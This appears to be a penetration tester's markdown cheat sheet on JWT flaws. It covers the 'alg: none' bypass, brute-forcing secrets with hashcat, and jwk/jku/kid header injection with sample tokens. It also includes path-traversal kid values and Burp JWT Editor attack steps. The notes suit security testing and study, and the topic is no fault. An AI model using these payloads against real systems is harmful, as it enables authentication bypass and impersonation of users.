 [[JWT]]
#jwt/flaws
### Misconfiguration
##### Accepting arbitrary signatures
Developer run `decode()` and forgot to call`verify()`

##### Accepting tokens with no signature
```json
{
	"alg": "none"
}
```
Bypass server validation with case or encoding manipulation, e.g. `"NoNe"`
and remove the signature part of the token

##### Brute-forcing secret keys
https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
```bash
hashcat -a 0 -m 16500 <valid jwt> <wordlist>
```

### JWT header parameter injections
* jwk - json web key - key json object
* jwu - json web key set url - url to fetch the list of keys
* kid - key ID

##### Injecting self-signed JWT via jwk
example:
```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```
Attack with Burp JWT Editor:
1. With the extension loaded, in Burp's main tab bar, go to the JWT Editor Keys tab.
2. Generate a new RSA key.
3. Send a request containing a JWT to Burp Repeater.
4. In the message editor, switch to the extension-generated JSON Web Token tab and modify the token's payload however you like.
5. Click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key.
6. Send the request to test how the server responds.
##### Injecting self-signed JWTs via the jku parameter
typical URL is `/.well-known/jwks.json`
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
```

##### Injecting self-signed JWTs via the kid parameter
```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
attacks on kid:
* `../../../dev/null` and sign token with empty secret
* path traversal looking for key file
* SQL injection


#### Other interesting JWT header parameters
The following header parameters may also be interesting for attackers:
* cty (Content Type) - Sometimes used to declare a media type for the content in the JWT payload. This is usually omitted from the header, but the underlying parsing library may support it anyway. If you have found a way to bypass signature verification, you can try injecting a cty header to change the content type to text/xml or application/x-java-serialized-object, which can potentially enable new vectors for XXE and deserialization attacks.
* x5c (X.509 Certificate Chain) - Sometimes used to pass the X.509 public key certificate or certificate chain of the key used to digitally sign the JWT. This header parameter can be used to inject self-signed certificates, similar to the jwk header injection attacks discussed above. Due to the complexity of the X.509 format and its extensions, parsing these certificates can also introduce vulnerabilities. Details of these attacks are beyond the scope of these materials, but for more details, check out CVE-2017-2800 and CVE-2018-2633.
